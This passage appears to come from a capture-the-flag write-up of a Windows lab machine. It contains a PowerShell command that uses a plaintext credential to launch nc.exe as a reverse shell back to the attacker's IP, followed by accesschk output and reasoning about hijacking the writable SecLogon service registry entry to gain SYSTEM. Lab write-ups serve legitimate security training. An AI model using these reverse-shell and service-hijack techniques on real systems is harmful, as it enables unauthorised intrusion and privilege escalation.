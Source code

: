 Command used:

```powershell
$user = 'fidelity\hector'
$pw = 'l33th4x0rhector'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 5555 -e cmd.exe}
```
## Priv esc using insecure ACLs on services

I uploaded `accesschk.exe` and checked files and registry entries that I have access to. I noticed that I had Read/Write access to a lot of registry entries related to services.

`C:\Users\Hector\Documents>c:\windows\system32\spool\drivers\color\accesschk.exe "Hector" -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services`

```
[...]
RW HKLM\System\CurrentControlSet\Services\sdbus\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters
RW HKLM\System\CurrentControlSet\Services\SDFRd\Parameters\Wdf
RW HKLM\System\CurrentControlSet\Services\sdstor
RW HKLM\System\CurrentControlSet\Services\sdstor\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon
RW HKLM\System\CurrentControlSet\Services\seclogon\Parameters
RW HKLM\System\CurrentControlSet\Services\seclogon\Security
RW HKLM\System\CurrentControlSet\Services\SecurityHealthService
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Parameters
RW HKLM\System\CurrentControlSet\Services\SEMgrSvc\Security
[...]
```

To successfully get RCE as SYSTEM I need to find a service that matches the following criterias:
- I can edit the registry entries with user Hector
- I need to be able to start the service with user Hector
- Is already configured to run as LocalSystem

I can't edit the service with `sc config`, probably because some permissions have been changed on the machine but I can change the same settings using `reg add`. After looking for a long time, I found the `SecLogon` service which satifies the conditions stated above.

```
C:\Users\Hector\Documents>sc query seclogon
sc query seclogon

SERVICE_NAME: seclogon 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
